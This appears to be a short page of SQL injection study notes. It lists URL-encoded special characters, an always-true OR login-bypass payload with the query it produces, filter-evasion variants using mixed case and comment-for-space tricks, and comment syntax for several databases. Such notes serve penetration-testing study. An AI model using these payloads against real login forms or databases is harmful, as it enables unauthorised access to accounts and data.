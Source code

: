 | **Payload**   | **URL Encoded**    |
|--------------- | --------------- |
| `'`   | %27   |
| `"` | %22 |
| `#` | %23 |
| `;` | %3B |
| `)` | %29 |


### OR Injection

We need to get always *true* statement to test. With the **OR** operator we can get a always true statement, for example `1 = 1`. So, we can try the following payload:
```sql
test' OR '1'='1
```

> Don't place a `'`, usually the query will add their own.
{: .prompt-info}


The final query could be:
```sql
SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';
```

Probably we need to change the text to bypass filter:
```sql
aNd 1=1
aNd 21=21
orDeR bY 1
orDer+bY+1
orDer/\*\*/bY/\*\*/1
orDer%20bY%201
```

We can change the spaces by:
```sql
+, /**/, %20
```

> Probably, we need to add **;** at the end of the query (before the comment).
{: .prompt-tip }

### Comments 

Another way is to add a comment at the end of our input, in order to remove everythin after our input. These are some common comments:

| **Database name**   | **Comment**    |
|--------------- | --------------- |
| Oracle   | `--`   |
| MySQL | `/* */` `--` |
| MariaDB | `/* */` `#` |
| Others comments | `/*` `//` `%23` |
